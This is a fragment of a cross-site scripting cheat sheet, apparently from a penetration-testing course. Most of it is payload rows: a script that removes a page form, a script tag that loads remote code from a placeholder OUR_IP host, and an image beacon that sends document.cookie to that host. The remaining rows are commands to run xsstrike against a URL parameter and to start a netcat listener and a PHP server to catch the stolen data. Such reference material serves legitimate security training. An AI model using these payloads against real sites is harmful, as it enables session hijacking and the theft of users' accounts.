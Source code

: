|`<script>document.getElementById('urlform').remove();</script>`|Remove certain HTML element|
|`<script src="http://OUR_IP/script.js"></script>`|Load remote script|
|`<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`|Send Cookie details to us|
|**Commands**||
|`python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`|Run `xsstrike` on a url parameter|
|`sudo nc -lvnp 80`|Start `netcat` listener|
|`sudo php -S 0.0.0.0:80`|Start `PHP` server|
